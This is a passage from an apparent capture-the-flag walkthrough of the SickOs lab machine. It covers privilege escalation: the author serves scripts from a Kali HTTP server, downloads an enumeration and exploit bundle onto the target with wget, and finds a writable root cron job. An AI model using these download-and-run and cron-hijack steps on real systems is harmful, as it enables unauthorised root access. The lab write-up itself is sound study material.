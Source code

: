 ```
www-data@SickOs:/usr/lib/cgi-bin$ export TERM=xterm
export TERM=xterm
```

## Step 3 - Privilege Escalation

Now that I had a foothold in the server, I could focus on upgrading to root.

I set up an HTTP server on my Kali box using ```sudo python3 -m http.server 80``` to be able to download scripts to the target machine using ```wget``` commands.

By doing this, I can circumvent any potential problems with not being able to get scripts from GitHub or any other external sources, and because it's more convenient.


```
sudo python3 -m http.server 80                                               
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Once I had the server online, I downloaded a copy of Linux Smart Enumeration (LSE) from my PC that was originally obtained from [here](https://github.com/diego-treitos/linux-smart-enumeration).

LSE allowed me to scan the host for common privilege escalation points and some additional known vulnerabilities. 
However, LSE does not include scripts to exploit said vulnerabilities should any be detected.
Therefore, I had packaged scripts in with my copy of LSE in a compressed folder for the sake of convenience.

```
wget http://192.168.57.129/lse.zip
wget http://192.168.57.129/lse.zip
--2022-06-30 19:00:04--  http://192.168.57.129/lse.zip
Connecting to 192.168.57.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 22327785 (21M) [application/zip]
Saving to: `lse.zip'

100%[======================================>] 22,327,785  31.9M/s   in 0.7s    

2022-06-30 19:00:04 (31.9 MB/s) - `lse.zip' saved [22327785/22327785]
```

After unzipping the folder and executing the script, I received plenty of useful information about the host.

A big thing LSE found was a couple of cron job running as root in directores I had write access in.

```
=======================================================( recurrent tasks )=====
[*] ret000 User crontab.................................................... nope
[!] ret010 Cron tasks writable by user..................................... nope
[*] ret020 Cron jobs....................................................... yes!
[*] ret030 Can we read user crontabs....................................... nope
[*] ret040 Can we list other user cron tasks?.............................. nope
[*] ret050 Can we write to any paths present in cron jobs.................. yes!
[!] ret060 Can we write to executable paths present in cron jobs........... yes!
---
/etc/cron.d/php5:09,39 *     * * *     root   [ -x /usr/lib/php5/maxlifetime ] && [ -d /var/lib/php5 ] && find /var/lib/php5/ -depth -mindepth 1 -maxdepth 1 -type f -cmin +$(/usr/lib/php5/maxlifetime) ! -execdir fuser -s {} 2>/dev/null \; -delete
/etc/cron.d/php5:09,39 *     * * *     root   [ -x /usr/lib/php5/maxlifetime ] && [ -d /var/lib/php5 ] && find /var/lib/php5/ -depth -mindepth 1 -maxdepth 1 -type f -cmin +$(/usr/lib/php5/maxlifetime) ! -execdir fuser -s {} 2>/dev/null \; -delete
/etc/cron.d/automate:* * * * * root /usr/bin/python /var/www/connect.py
---
[i] ret400 Cron files...................................................... skip
```